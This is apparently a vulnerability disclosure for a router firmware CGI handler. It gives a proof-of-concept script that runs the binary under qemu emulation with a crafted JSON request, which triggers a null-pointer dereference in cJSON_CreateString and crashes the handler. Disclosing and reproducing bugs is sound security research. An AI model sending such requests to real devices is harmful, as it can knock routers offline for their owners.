




## poc

### getPortLinkStaus.sh
```bash
#!/bin/bash
#! `cat /proc/rtl865x/port_status | grep Link > /tmp/port_status` failed
# `v0 = fopen64("/tmp/port_status", "r");` makes v0 as null
chroot ./ ./qemu-mips-static\
        -E  CONTENT_LENGTH="990"  -g  123  -L  ./lib  \
        ./web_cste/cgi-bin/cstecgi_410F78.cgi  < getPortLinkStaus.json
```

### getPortLinkStaus.json
```json
{
    "topicurl" : "UploadCustomModule/getSysStatusCfg",
}
```

## Reproduce
```bash
./getPortLinkStaus.sh
```
```bash
gdb-multiarch ./web_cste/cgi-bin/cstecgi.cgi
```

When `fopen` failed, `getPortLinkStatus` will return a null pointer.


Tracing execution path from this point, we can trace that the null pointer is passed into `cJSON_CreateString` function.





In the `cJSON_CreateString`, this null pointer will be dereferenced.




